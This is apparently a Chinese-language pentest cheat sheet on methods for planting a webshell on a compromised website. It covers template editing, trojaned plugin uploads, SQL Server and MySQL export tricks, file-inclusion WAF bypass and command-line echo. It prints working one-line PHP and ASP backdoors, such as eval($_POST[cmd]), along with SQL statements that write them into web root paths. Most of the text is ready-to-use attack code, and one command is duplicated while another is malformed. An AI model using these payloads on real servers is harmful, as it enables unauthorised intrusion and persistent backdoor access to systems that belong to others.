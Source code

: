* **通过编辑模板拿webshell**
  * 方法
    通过对网站的模板进行编辑写入一句话，然后生成脚本文件拿webshell。
    通过将木马添加到压缩文件，把名字改为网站模板类型，上传到网站服务器，拿webshell
  
* **上传插件拿shell**
  * （1）条件
    一些网站为了增加某些功能会在后台添加一些 插件来实现
  * （2）方法
    一般将马与插件绑定在一起，不需要启动，只是知道马在哪就可以了
    我们可以把木马添加到安装的插件中上传服务器拿shell
  
* **数据库执行拿webshell**
  * （1）方法
    我们可以通过数据库执行命令导出一句话到网站根目录拿shell
    access 数据库导出 一般需要利用解析漏洞xx.asp;.xml
    sqlserver 导出
    ```sql
    ;exec%20sp_makewebtask%20%20%27c:\inetpub\wwwroot\ms\x1.asp%27,%27select%27%27<%execute(request("cmd"))%>%27%27%27-- 
    ```
    mysql命令导出shell
    ```sql
    Create TABLE study (cmd text NOT NULL);
    Insert INTO study (cmd) VALUES('<?php eval ($_POST[cmd]) ?>');
    select cmd from study into outfile 'D:/php/www/htdocs/test/seven.php';
    Drop TABLE IF EXISTS study;
    ```
    >如果没有权限执行into outfile函数时，可以利用日志生成来注入马，前提是能修改日志位置
    
    ```sql
    use mysql;
    create table x(packet text) type=MYISaM;
    insert into x (packet) values('<pre><body ><?php @system($_GET["cmd"]); ?></body></pre>')
    select x  into outfile 'd:\php\xx.php'
    ```
    ```sql
    select '<?php eval($_POST[cmd]);?>' into outfile 'C:/Inetpub/wwwroot/mysql-php/1.php'
    ```
  * （2）推理网站根目录
    找到mysql安装目录（select @@basedir）
    读取apache配置文件
    寻找documentroot项，显示网站根目录
  
* **文件包含拿webshell**
  * （1）条件
    包含的文件可以被用户修改
  * （2）方法
    先将webshell该为txt文件上传，然后上传一个脚本文件包含该txt文件，可绕过waf拿webshell
  
* **命令执行拿shell**
  * （1）方法
    ```bash
    Echo ^<^?php @eval($_POST['cracer']);?^>^ > c:\1.php
    ```
    ```bash
    Echo ^<^?php @eval($_POST['cracer']);?^>^ > c:\1.php
    ```
    ```bash
    ^<^%eval request("cracer")%^>^ > c:\1.php
    ```
    